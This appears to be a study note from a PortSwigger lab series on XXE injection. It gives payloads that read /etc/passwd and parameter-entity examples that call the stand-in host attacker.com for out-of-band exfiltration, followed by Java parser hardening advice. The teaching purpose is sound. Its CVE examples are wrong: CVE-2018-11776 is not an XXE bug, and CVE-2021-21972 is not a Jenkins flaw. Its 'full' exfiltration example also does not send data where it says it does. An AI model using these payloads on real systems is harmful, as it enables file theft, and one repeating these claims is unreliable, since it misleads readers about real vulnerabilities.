


## Understanding XXE Injection

### What is XXE Injection?

XML External Entity (XXE) injection is a type of attack against an application that parses XML input. This attack occurs when an attacker can inject a malicious XML document that references an external entity. The parser may process this entity in a way that leads to unauthorized data access, denial of service, or other vulnerabilities.

### Why Does XXE Matter?

XXE attacks are significant because they can lead to several critical issues:

- **Data Exfiltration**: An attacker can read sensitive files on the server.
- **Denial of Service (DoS)**: By causing the XML parser to consume excessive resources.
- **Remote Code Execution**: In some cases, XXE can be used to execute arbitrary commands on the server.

### How Does XXE Work?

The core of an XXE attack lies in the ability to define and reference external entities within an XML document. These entities can be defined in the Document Type Definition (DTD) section of the XML document.

#### Example of a Basic XXE Attack

Consider the following XML document:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root><data>&xxe;</data></root>
```

In this example, the `&xxe;` entity references the `/etc/passwd` file on the server. If the XML parser processes this entity, it will attempt to read the contents of `/etc/passwd`.

### Recent Real-World Examples

#### CVE-2018-11776: Apache Struts XXE Vulnerability

Apache Struts 2.3.x and 2.5.x versions were found to be vulnerable to XXE attacks due to improper handling of XML input. This vulnerability allowed attackers to read arbitrary files on the server, leading to potential data exfiltration.

#### CVE-2021-21972: Jenkins Pipeline Plugin XXE Vulnerability

Jenkins Pipeline Plugin versions prior to 2.30 were vulnerable to XXE attacks. This vulnerability allowed attackers to read sensitive files on the Jenkins server, potentially leading to unauthorized data access.

### Parameter Entities in XXE Attacks

Parameter entities are a special type of entity that can only be referenced within the DTD section of an XML document. They are declared using the `%` symbol and referenced using the same symbol.

#### Declaration of Parameter Entities

A parameter entity is declared in the DTD section using the `%` symbol followed by the entity name. For example:

```xml
<!ENTITY % param SYSTEM "http://attacker.com/entity.dtd">
```

Here, `%param` is a parameter entity that references an external DTD located at `http://attacker.com/entity.dtd`.

#### Referencing Parameter Entities

Parameter entities are referenced using the `%` symbol. For example:

```xml
<!ENTITY % param SYSTEM "http://attacker.com/entity.dtd">
%param;
```

In this example, `%param;` is referenced within the DTD section.

### Out-of-Band Interaction via XML Parameter Entities

Out-of-band interaction refers to the technique of using external entities to communicate with a remote server controlled by the attacker. This can be achieved using parameter entities.

#### Example of Out-of-Band Interaction

Consider the following XML document:

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % param SYSTEM "http://attacker.com/entity.dtd">
%param;
]>
<root><data>&outofband;</data></root>
```

In this example, `%param;` references an external DTD located at `http://attacker.com/entity.dtd`. The external DTD can define additional entities, such as `&outofband;`, which can be used to interact with the attacker's server.

### Full Example of an XXE Attack Using Parameter Entities

Let's walk through a complete example of an XXE attack using parameter entities.

#### Attacker-Controlled DTD

The attacker controls an external DTD located at `http://attacker.com/entity.dtd`. This DTD defines an entity that references a sensitive file on the server:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY outofband "<![CDATA[%file;]]>">
```

#### Malicious XML Document

The attacker crafts a malicious XML document that references the external DTD:

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % param SYSTEM "http://attacker.com/entity.dtd">
%param;
]>
<root><data>&outofband;</data></root>
```

#### Parsing the XML Document

When the server parses the XML document, it will follow the references to the external DTD and the sensitive file. The result will be the contents of `/etc/passwd` being sent to the attacker's server.

### How to Prevent / Defend Against XXE Attacks

#### Detection

To detect XXE attacks, you can monitor for unusual XML parsing behavior, such as excessive resource consumption or unexpected network traffic.

#### Prevention

To prevent XXE attacks, you should:

1. **Disable External Entity Processing**: Ensure that your XML parser does not process external entities. This can often be done by setting specific configuration options in the parser.

2. **Validate Input**: Validate all XML input to ensure it does not contain any external entity references.

3. **Use Secure Libraries**: Use libraries that are known to handle XML securely and have been audited for vulnerabilities.

#### Secure Coding Fixes

##### Vulnerable Code

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlInput)));
```

##### Secure Code

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlInput)));
```

### Mermaid Diagrams

#### XML Parsing Flow



#### Out-of-Band Interaction



### Practice Labs

For hands-on practice with XXE attacks, consider the following labs:

- **PortSwigger Web Security Academy**: Offers interactive labs on XXE injection.
- **OWASP Juice Shop**: Contains various web security challenges, including XXE.
- **DVWA (Damn Vulnerable Web Application)**: Provides a vulnerable web application for testing and learning.

By thoroughly understanding the concepts, mechanisms, and defenses against XXE attacks, you can better protect your applications from these vulnerabilities.

---
<!-- nav -->
[[09-Testing for XXE Injection|Testing for XXE Injection]] | [[Web Security (PortSwigger)/08-XXE Injection/05-Lab 4 Blind XXE with out of band interaction via XML parameter entities/00-Overview|Overview]] | [[Web Security (PortSwigger)/08-XXE Injection/05-Lab 4 Blind XXE with out of band interaction via XML parameter entities/11-Practice Questions & Answers|Practice Questions & Answers]]
